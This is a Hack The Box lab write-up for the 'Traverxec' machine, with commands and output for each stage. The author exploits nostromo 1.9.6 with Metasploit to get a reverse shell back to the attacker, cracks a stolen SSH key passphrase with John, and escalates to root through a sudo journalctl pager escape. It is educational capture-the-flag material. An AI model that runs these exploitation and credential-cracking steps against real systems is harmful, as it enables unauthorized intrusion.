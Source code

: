 ```yaml
---
date: 2020-04-15 06:21:35
layout: post
title: "Traverxec Hack The Box Walkthrough"
subtitle:
description: Today we will be doing Traverxec from Hack The Box. The box was rated easy and good for beginners to practice pentesting skills.
image: /assets/img/uploads/traverxec/traverxec.jpg
optimized_image: /assets/img/uploads/traverxec/traverxec.jpg
category: walkthrough
tags: hackthebox boot2root
author: madhavmehndiratta
paginate: false
keywords: traverxec hack the box, hackthebox walkthrough, traverxec, htb, infosec articles, traverxec walkthrough, traverxec writeup
---
```



Today we will be doing Traverxec from Hack The Box. This box was rated easy and good for beginners to practice penetration testing skills. For the initial foothold we had to exploit a webserver that was vulnerable to remote code execution and get a reverse shell back into our machine. For root, the user David had privilege to execute journalctl as root and we leveraged that to get root in the box. With that said let’s jump in.

We begin our reconnaissance by running a port scan with Nmap, checking default scripts and testing
for vulnerabilities.

```r
m1m3@kali:~$ nmap -sC -sV -oA nmap/traverxec 10.10.10.165

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 10.10.10.165
Host is up (0.27s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.14 seconds
```

We see that the port 80 is open an it is running <i>nostromo 1.9.6</i>. Looking at the port 80, we have a static website with nothing useful.


## Initial Foothold:
Now lets look on searchsploit if we have a vulnerable version of nostromo.

```r
m1m3@kali:~$ searchsploit nostromo

--------------------------------------------------------- ----------------------------------------
 Exploit Title                                           |  Path
                                                         | (/usr/share/exploitdb/)
--------------------------------------------------------- ----------------------------------------
Nostromo - Directory Traversal Remote Command Execution  | exploits/multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution                   | exploits/multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal Remote Comma | exploits/linux/remote/35466.sh
--------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

We have RCE available. Lets use the metasploit for it.

```r
msf5 > search nostromo

Matching Modules
================

   #  Name                                   Disclosure Date  Rank  Check  Description
   -  ----                                   ---------------  ----  -----  -----------
   0  exploit/multi/http/nostromo_code_exec  2019-10-20       good  Yes    Nostromo Directory Traversal Remote Command Execution


msf5 > use exploit/multi/http/nostromo_code_exec 
msf5 exploit(multi/http/nostromo_code_exec) > set RHOSTS 10.10.10.165
RHOSTS => 10.10.10.165
msf5 exploit(multi/http/nostromo_code_exec) > set LHOST tun0
LHOST => tun0
msf5 exploit(multi/http/nostromo_code_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.115:4444 
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.10.14.115:4444 -> 10.10.10.165:49476) at 2020-03-25 04:18:35 +0530
```


We get a TCP reverse shell which we can turn into a tty shell using:

```python
python -c 'import pty;pty.spawn("/bin/bash")'
```

If we type <i>id</i> we get the user of the shell:

```r
www-data@traverxec:/usr/bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## User Shell:

With some enumeration, we can see a nostromo configuration file present at <b>/var/nostromo/conf</b> that reveals a public home directory.

```r
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf

# HOMEDIRS [OPTIONAL]

homedirs          /home
homedirs_public   public_www
```

Based on the config file, I am guessing that david is going to have a sub directory named public_www, so let’s see if we can get a directory listing of <i>/home/david/public_www</i>

```r
www-data​ @traverxec​ :/var/nostromo/htdocs​ $ ​ ls /home/david/public_www -lah

ls /home/david/public_www -lah
total ​ 16​ K
drwxr-xr-x ​ 3 ​ david david ​ 4.0​ K Oct ​ 25​ ​ 15​ : ​ 45​ .
drwx--x--x ​ 5 ​ david david ​ 4.0​ K Oct ​ 25​ ​ 17​ : ​ 02​ ..
-rw-r--r-- ​ 1 ​ david david ​ 402​   Oct ​ 25​ ​ 15​ : ​ 45​ index.html
drwxr-xr-x ​ 2 ​ david david ​ 4.0​ K Oct ​ 25​ ​ 17​ : ​ 02​ protected-file-area
```

After looking inside the <i>protected-file-area</i> I found a <i>backup-ssh-identity-files.tgz</i>. After copying it to my machine, I found the private ssh key for David. We can now use john to crack the key and ssh into the box.

```r
m1m3@kali:~$ /usr/share/john/ssh2john.py id_rsa > id_rsa.txt
m1m3@kali:~$ john id_rsa.txt

Press 'q' ​ or​ Ctrl-C ​ to​ abort, almost any other key for status
hunter      (david)
Session completed
```

Hurray! We found the key for David. Now lets ssh into the box and grab the user flag.

```r
m1m3@kali:~$ ssh -i id_rsa david@10.10.10.165
Enter passphrase for key 'id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64

david@traverxec:~$ id
uid=1000(david) gid=1000(david) groups=1000(david)

david@traverxec:~$ wc -c user.txt
33 user.txt
```

## Root Shell:

The first thing I noticed when I got the user when doing privilege escalation is there is a bin directory inside David’s home directory it has a file called server-stats.sh. 

```r
david@traverxec:~/bin$ cat server-stats.sh

#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

Last line of the script tells us that david can run <i>/usr/bin/journalctl</i> with sudo. So I searched in [GTFO bin’s](https://gtfobins.github.io/gtfobins/journalctl/) and exploited the less prompt that opens up as sudo using <i>!/bin/bash</i>.

```r
david@traverxec:/dev/shm$ ./server-stats.sh
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# wc -c /root/root.txt
33 root.txt
```

That’s it! Thanks for reading! Make sure to stay tuned for more upcoming Hack The Box writeups!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/kangle">Kanye.</a>